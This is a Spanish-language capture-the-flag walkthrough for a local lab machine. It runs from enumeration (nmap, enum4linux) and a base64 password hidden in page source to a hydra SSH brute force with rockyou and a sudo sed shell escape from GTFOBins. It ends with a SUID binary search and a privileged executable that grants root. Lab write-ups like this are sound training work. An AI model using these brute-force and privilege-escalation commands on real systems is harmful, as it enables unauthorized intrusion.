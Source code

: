 nmap: 445,80,22,139

![image](https://github.com/user-attachments/assets/3bb1be68-7619-4523-bc23-f1de1268799c)

---
hacemos un: enum4linux -a 172.17.0.2

![image](https://github.com/user-attachments/assets/b905716e-26f1-4f9f-bed5-cdb04ce17655)

Nos da dos nombres: andy y lucas

en el código fuente de la pagina de "Andy's house" hay una contraseña en base64: 

![image](https://github.com/user-attachments/assets/3c9ed1dd-f426-494a-acb2-052b168ccc2b)

> ZXN0b2VzdW5zZWNyZXRvCg==

Usamos: https://www.base64decode.org/es/

    nos da: estoesunsecreto

es un parámetro, así que dejamos la URL de la siguiente forma.

> http://172.17.0.2/estoesunsecreto/mensaje_para_lucas.txt

![image](https://github.com/user-attachments/assets/83682ff4-5a74-4c3f-8049-90d8167b687b)

Lanzamos un ataque de fuerza bruta ya que nos indican que la contraseña es débil:

> hydra -l lucas -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

![image](https://github.com/user-attachments/assets/19976a30-0ace-4715-8afc-29c6b38cc370)

nos da la contraseña de lucas: chocolate

entramos en el ssh con el usuario y contraseña encontrado

![image](https://github.com/user-attachments/assets/52347385-e729-4072-83d2-698c1e2afc24)

utilizamos sudo -l

se escala con sed y lo buscamos en: https://gtfobins.github.io/gtfobins/sed/

colocamos el comando que nos dio y lo modificamos al principio: 

>sudo - u andy sed -n '1e exec sh 1>&0' /etc/hosts

![image](https://github.com/user-attachments/assets/a2ddbad8-728b-47b0-ae98-39e0958f62ac)

ahora buscamos como escalar, y buscando entre carpetas con el comando: 
> find / -perm -4000 -ls 2> /dev/null

Nos da dos ejecutables en " /usr/local/bin ", así que vamos a la ruta que nos muestra.

hay un "privileged_exec"
lo ejecutamos ya que tiene permisos de ejecución con Andy

> ./privileged_exec

![image](https://github.com/user-attachments/assets/77fdb9fe-044d-4732-925a-a5e93f757872)

y somos root!

